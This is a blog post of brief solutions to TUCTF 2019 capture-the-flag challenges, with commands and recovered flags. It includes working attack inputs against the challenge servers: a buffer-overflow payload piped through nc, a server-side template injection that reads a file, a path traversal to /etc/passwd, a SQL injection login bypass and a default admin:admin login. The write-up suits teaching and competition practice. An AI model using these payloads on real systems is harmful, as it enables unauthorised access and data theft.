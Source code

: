 ```yaml
---
layout: post
title:  "TUCTF 2019"
excerpt: CTF competition
tags: [ctf, challenges]
---
```



[https://tuctf.com/](https://tuctf.com/)
<br>
## completed challenges
**welcome**<br>
<p>welcome</p><br>
![Alt text](../ctfs/tuctf2019/welcome.png)<br>
<p>just needed to '.validate' on discord</p><br>
<pre>TUCTF{W3lc0m3_70_TUCTF._H4v3_fun}</pre><br>

**misc**<br>
misc - red yarn
strings DEBUG.COM | grep TUCTF
TUCTF{D0NT_F0RG3T_TH3_B4S1CS!}

misc - super secret
binwalk -e document.odt
cat _document.odt.extracted/Basic/Standard/flag.xml
TUCTF{ST0P_TRUST1NG_M4CR0S_FR0M_4N_UNKN0WN_S0URC3}

misc - onions
opened with 7zip 
several layers deep and found flag
TUCTF{F1L3S4R3L1K30N10NSTH3YH4V3L4Y3RS}
**pwn**<br>
pwn - runme
strings runme | grep TUCTF
TUCTF{7h4nk5_f0r_c0mp371n6._H4v3_fun,_4nd_600d_luck}

pwn - thefirst
objdump -d ./thefirst
	080491f6 <printFlag>
python -c 'print "AAAAAAAAAAAABBBBCCCCDDDD"+ "\xf6\x91\x04\x08"' | nc chal.tuctf.com 30508
TUCTF{0n3_d0wn..._50_m4ny_70_60}
**crypto**<br>
crypto - common
https://medium.com/bugbountywriteup/rsa-attacks-common-modulus-7bdb34f331a5
TUCTF{Y0U_SH0ULDNT_R3US3_TH3_M0DULUS}

crypto - sonic
rot-cipher
TUCTF{W04H_DUD3_S0_F4ST_S0N1C_4PPR0V3S}

crypto - warren 
TUCTF{th4nks_f0r_d1n1ng_4641n_4t_th3_W4rr3n_buff3t}
**mega**<br>
mega - coffee
BREW /teapot
HTCPCP/1.0 418 I'm a teapot. Go to /broken.zip
https://tools.ietf.org/html/rfc2324
TUCTF{d0_y0u_cr4v3_th3_418}

mega - broken
strings broken.img | grep TUCTF
TUCTF{D1S4ST3R_R3C0V3RY}
**reversing**<br>
reversing - faker
gdb -q ./faker
	jump thisone
TUCTF{7h3r35_4lw4y5_m0r3_70_4_b1n4ry_7h4n_m3375_7h3_d3bu663r}
**web**<br>
web - open door
source code found flag
TUCTF{f1r5t_fl46_345135t_fl46} 

web - test test test
looked in imgs directory
todo.txt and flag.php files
pause requests on burp when selecting flag.php to reveal flag
TUCTF{d0nt_l34v3_y0ur_d1r3ct0ry_h4n61n6}
 
web - router where art thou
0.html - started off here with a form
1.html - tried this file and sonicwall login revealed
2.html - tried this file and palo login revealed
	admin:admin worked
TUCTF{y0u_f0und_th3_fun_r0ut3r_d3f4ult5}

web - and now for something completely different
found [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#template-format)
http://chal.tuctf.com:30007/welcome/%7B%7B%20''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read()%20%7D%7D
TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465}

web - cute animals
lfi found on portal.php
/./././././././././././etc/passwd
TUCTF{m0r3_cut3_4n1m415_c4n_b3_f0und_4t_https://bit.ly/1HU2m5Q}

web - robots
/robots.txt but need
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
TUCTF{463nt_6006l3_r3p0rt1n6_4_r0b0t}

web - login to access
sql injection revealed actual login login.html 
' or '1' = '1  
but login.php.bak file was found to reveal flag
TUCTF{b4ckup5_0f_php?_1t5_m0r3_c0mm0n_th4n_y0u_th1nk} 
